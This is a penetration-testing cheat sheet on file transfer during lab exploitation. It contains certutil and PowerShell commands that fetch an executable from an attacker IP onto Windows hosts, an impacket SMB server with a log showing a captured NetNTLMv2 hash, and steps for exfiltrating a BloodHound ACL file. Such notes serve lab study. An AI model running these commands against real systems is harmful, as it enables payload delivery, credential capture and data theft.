 - [Windows File Transfer](#windows-file-transfer)
	- [Certutil](#certutil)
- [Linux File Transfer](#linux-file-transfer)
	- [impacket-smbserver](#impacket-smbserver)
	- [FTP](#ftp)
	- [pyftpdlib](#pyftpdlib)
- [SSH/SCP](#sshscp)


# Windows File Transfer
## Certutil
### [Downloading Files with Certutil](https://www.ired.team/offensive-security/defense-evasion/downloading-file-with-certutil)
```sh
certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe
certutil -urlcache -f http://10.0.0.5/40564.exe bad.exe

$ip = '10.10.14.5'
certutil -urlcache -f http://$ip/40564.exe bad.exe
```
(New-Object Net.WebClient).DownloadFile('http://$ip/taskkill.exe','C:\Windows\Temp\taskkill.exe')


# Linux File Transfer
## impacket-smbserver
### [SMB](https://medium.com/@PenTest_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65)
### On Server Side (Kali)
```sh
smbserver.py share . -smb2support
smbserver.py share . -smb2support -username root -password toor
impacket-smbserver share . -smb2support -username root -password toor
impacket-smbserver share . -smb2support -username root -password toor -ip 10.1.1.1
```

```sh
$ impacket-smbserver share .
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed

```

### On Client Side
```sh
C:\Users\bitbucket\Downloads>net use \\10.1.1.1\share
Enter the user name for '10.1.1.1': root
Enter the password for 10.1.1.1: toor
The command completed successfully.
```

```sh
tom@REEL C:\Users\tom\Desktop\AD Audit\BloodHound\Ingestors>copy acls.csv \\10.1.1.1\share
        1 file(s) copied.
```

### On Server Side (Kali), received the file
```sh
[*] Incoming connection (10.10.10.77,52853)
[*] AUTHENTICATE_MESSAGE (HTB\tom,REEL)
[*] User REEL\tom authenticated successfully
[*] tom::HTB:aaaaaaaaaaaaaaaa:ce35716473cdd23a96f36ceb04c047b7:01010000000000008001dda490e0d90110624f8984ad10560000000001001000410070004900720061006c006700690003001000410070004900720061006c00670069000200100044005400690049006800610071006f000400100044005400690049006800610071006f00070008008001dda490e0d90106000400020000000800300030000000000000000000000000300000af600118190f818eb191529b8de7b91c47aaab8e73855d44e95d1b6e27fd549f0a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e003900000000000000000000000000
[*] Disconnecting Share(1:IPC$)
[*] Disconnecting Share(2:SHARE)
[*] Closing down connection (10.10.10.77,52853)
[*] Remaining connections []

Ctrl + C

$ ls -lh acls.csv                         
-rwxr-xr-x 1 kali kali 110K Jan  1  1970 acls.csv
```

## [FTP](#ftp-1)
### [pyftpdlib](#pyftpdlib-1)
```sh
pip install pyftpdlib
python -m pyftpdlib -p 21
```

### On Client Side
Use explorer, browser, or cmd
```sh
PS C:\> ftp 10.1.1.1
Connected to 10.1.1.1.
220 pyftpdlib 1.5.9 ready.
530 Log in with USER and PASS first.
User (10.1.1.1:(none)): anonymous
331 Username ok, send password.
Password:
230 Login successful.
ftp> ls
```

# SSH/SCP
### 
```sh
$ ssh -i alice.pem alice1978@$t ls
lin.txt

$ scp -i alice.pem alice1978@$t:~/lin.txt .
lin.txt          100%   59KB 429.8KB/s   00:00
```

### 
```sh

```

### 
```sh

```